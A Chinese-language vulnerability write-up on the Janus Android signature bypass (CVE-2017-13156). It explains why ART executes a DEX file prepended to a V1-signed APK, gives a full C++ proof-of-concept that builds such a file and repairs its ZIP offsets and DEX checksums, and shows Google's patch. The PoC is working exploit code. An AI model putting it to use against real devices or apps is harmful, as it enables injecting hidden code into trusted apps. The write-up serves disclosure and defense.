





CVE | 参考信息 | 类型 | 严重程度 | 已更新的 AOSP 版本
--|--|--|--|--
CVE-2017-13156 | [A-64211847](https://android.googlesource.com/platform/system/core/+/9dced1626219d47c75a9d37156ed7baeef8f6403) | EoP | 高 | 5.1.1、6.0、6.0.1、7.0、7.1.1、7.1.2、8.0

[TOC]

# Janus安卓签名漏洞

## 漏洞成因

### 文件格式

DALVIK虚拟机要求dex必须包装在一个zip内部且名字是classes.dex才能运行；ART允许运行一个纯粹的dex文件，不需要在外面包装一层zip，同时也支持包装在zip内部的dex文件。

ART虚拟机是通过文件头的magic字段进行判断：ZIP文件的开头是‘PK’, 而dex文件的开头是’dex’。而ZIP文件的读取方式是通过在文件末尾定位central directory，然后通过里面的索引定位到各个zip entry，每个entry解压之后都对应一个文件。



在ZIP文件开始位置插入一个DEX文件，系统安装ZIP文件时，从尾部读取数据，认为这个程序是正常的。而在运行时，ZIP文件开始位置为'dex'，ART虚拟机将其识别为DEX文件直接运行。

### 签名方案

V1签名方案（jar签名）不会检查ZIP文件的所有内容；Android 7.0引入V2签名方案（APK完整签名）会对整个ZIP文件进行签名检查。

采用V1签名方案，DEX的插入过程不会改变Android检查完整性的字节，而且ZIP文件的签名也不会改变，能够在ART虚拟机上能够正常安装运行。



## 漏洞利用
1. 将dex和apk合并成一个out文件
2. 修复out文件中apk部分EocdRecord的cd_start_offset（第一个CentralDirectoryRecord的偏移）和CentralDirectoryRecord中的local_file_header_offset（文件entry偏移）
3. 修复out文件中dex部分dex头的fileSize、signature（sha-1）以及checksum（alder32）

### poc
``` c++
#include <zlib.h>
#include "include/ZipArchive.h"
#include "include/DexFile.h"
#include "include/sha1.h"

#define offsetof(s,m) (size_t)&(((s *)0)->m)

struct FileDescriptor {
    FileDescriptor(const char *path, int flags){
        mPath = path;
        mFile = open64(path, flags);
    }
    FileDescriptor(const char *path, int flags, mode_t mode){
        mPath = path;
        mFile = open64(path, flags, mode);
    }
    ~FileDescriptor() {
        if (mFile > 0) close(mFile);
    }
    operator int& () {
        return mFile;
    }
    off64_t     mSize; // 文件大小
    int         mFile; // 文件描述符
    const char *mPath; //文件路径
};

// 合并文件
int32_t MergeFile(FileDescriptor *out, FileDescriptor *apk, FileDescriptor *dex) {

    lseek64(*out, 0, SEEK_SET);

    // 读取dex文件内容
    lseek64(*dex, 0, SEEK_SET);
    char *buf = (char*) malloc(dex->mSize);
    read(*dex, buf, dex->mSize);

    // 把dex文件内容放在开头
    write(*out, buf, dex->mSize);
    free(buf);
    ALOGV("append dex file success");

    // 读取apk文件内容
    lseek64(*apk, 0, SEEK_SET);
    buf = (char*) malloc(apk->mSize);
    read(*apk, buf, apk->mSize);

    // 后面附加apk文件内容
    write(*out, buf, apk->mSize);
    free(buf);
    ALOGV("append apk file success");

    // 修改目标文件的大小
    out->mSize = apk->mSize + dex->mSize;

    return 0;
}

// 修复zip部分数据
int32_t RepairZip(FileDescriptor *out, off64_t offset, size_t length) {
    // 将apk文件部分映射到内存
    FileMap map;
    map.create(out->mPath, *out, offset, length, false);

    // apk文件起始位置
    uint8_t *start = reinterpret_cast<uint8_t*>(map.getDataPtr());
    EocdRecord* eocd =
        reinterpret_cast<EocdRecord*>(start + map.getDataLength() - sizeof(EocdRecord));
    uint8_t* cd_ptr =
        reinterpret_cast<uint8_t*>(start + eocd->cd_start_offset);
    uint16_t num_entries = eocd->num_records;

    // 修改cd_start_offset偏移
    eocd->cd_start_offset += offset;
    ALOGV("cd_start_offset: %d", eocd->cd_start_offset);

    // 遍历所有entry， 修改file_header_offset
    uint8_t* ptr = cd_ptr;
    for (uint16_t i = 0; i < num_entries; i++) {
        CentralDirectoryRecord* cdr = reinterpret_cast<CentralDirectoryRecord*>(ptr);

        const uint16_t file_name_length = cdr->file_name_length;
        const uint16_t extra_length = cdr->extra_field_length;
        const uint16_t comment_length = cdr->comment_length;

        // file_header_offset往后挪
        cdr->local_file_header_offset += offset;

        // const uint8_t* file_name = ptr + sizeof(CentralDirectoryRecord);
        // ALOGV("entry: %s  offset: %d", file_name, cdr->local_file_header_offset);

        ptr += sizeof(CentralDirectoryRecord) + file_name_length + extra_length + comment_length;
    }

    return 0;
}

// 修复dex部分数据
int32_t RepairDex(FileDescriptor *out) {

    // 将apk文件部分映射到内存
    FileMap map;
    map.create(out->mPath, *out, 0, out->mSize, false);

    DexHeader *header = reinterpret_cast<DexHeader*>(map.getDataPtr());

    header->fileSize = out->mSize;
    header->headerSize = sizeof(DexHeader);

    //修复sha-1
    unsigned char sha1Digest[kSHA1DigestLen];
    SHA1_CTX context;
    SHA1Init(&context);
    SHA1Update(&context, (unsigned char*)&header->fileSize,
        header->fileSize - offsetof(DexHeader, fileSize));
    SHA1Final(sha1Digest, &context);
    memcpy(header->signature, sha1Digest, sizeof(sha1Digest));
    ALOGV("out file signature: %s", header->signature);

    //修复校验和
    uLong adler = adler32(0L, Z_NULL, 0);
    adler = adler32(adler, (Bytef*)header->signature,
        header->fileSize - offsetof(DexHeader, signature));
    header->checksum = adler;
    ALOGV("out file checksum: 0x%08X", header->checksum);

    return 0;
}

int32_t PatchFile(const char *outPath, const char *apkPath, const char *dexPath) {

    FileDescriptor out(outPath, O_CREAT | O_RDWR | O_TRUNC, S_IRWXU);
    if (out <= 0) {
        ALOGE("create out file(%s) failed: %s", outPath, strerror(errno));
        return -1;
    }

    FileDescriptor apk(apkPath, O_RDWR);
    if (apk <= 0) {
        ALOGE("open apk file(%s) failed: %s", apkPath, strerror(errno));
        return -1;
    }

    FileDescriptor dex(dexPath, O_RDWR);
    if (dex <= 0) {
        ALOGE("open dex file(%s) failed: %s", dexPath, strerror(errno));
        return -1;
    }

    // 文件大小
    dex.mSize = lseek64(dex, 0, SEEK_END);
    apk.mSize = lseek64(apk, 0, SEEK_END);
    ALOGV("dex file size: %ld b", dex.mSize);
    ALOGV("apk file size: %ld b", apk.mSize);

    if (MergeFile(&out, &apk, &dex) < 0) {
        ALOGE("merge file failed");
        return -1;
    }

    ALOGV("out file size: %ld b", out.mSize);

    if (RepairZip(&out, dex.mSize, apk.mSize) < 0) {
        ALOGE("repair zip file failed");
        return -1;
    }

    if (RepairDex(&out) < 0) {
        ALOGE("repair dex file failed");
        return -1;
    }

    ALOGV("success");

    return 0;
}

int main(int argc, char *argv[]) {
    if (argc != 4) {
        printf("%s {apk path} {dex path} {out path}\n", strrchr(argv[0], '/') + 1);
    } else {
        PatchFile(argv[3], argv[1], argv[2]);
    }
    return 0;
}
```

原始内容



注入的dex内容



程序运行结果



## 修复方案
google的修复方案：解析zip文件时，验证文件偏移0处的kSignature是否为0x04034b50(PK)

```c++
@/system/core/libziparchive/zip_archive.cc
static int32_t ParseZipArchive(ZipArchive* archive) {
    ... ...
+
+  uint32_t lfh_start_bytes;
+  if (!archive->mapped_zip.ReadAtOffset(reinterpret_cast<uint8_t*>(&lfh_start_bytes),
+                                        sizeof(uint32_t), 0)) {
+    ALOGW("Zip: Unable to read header for entry at offset == 0.");
+    return -1;
+  }
+
+  if (lfh_start_bytes != LocalFileHeader::kSignature) {
+    ALOGW("Zip: Entry at offset zero has invalid LFH signature %" PRIx32, lfh_start_bytes);
+#if defined(__ANDROID__)
+    android_errorWriteLog(0x534e4554, "64211847");
+#endif
+    return -1;
+  }
+
   ALOGV("+++ zip good scan %" PRIu16 " entries", num_entries);

   return 0;
}
```
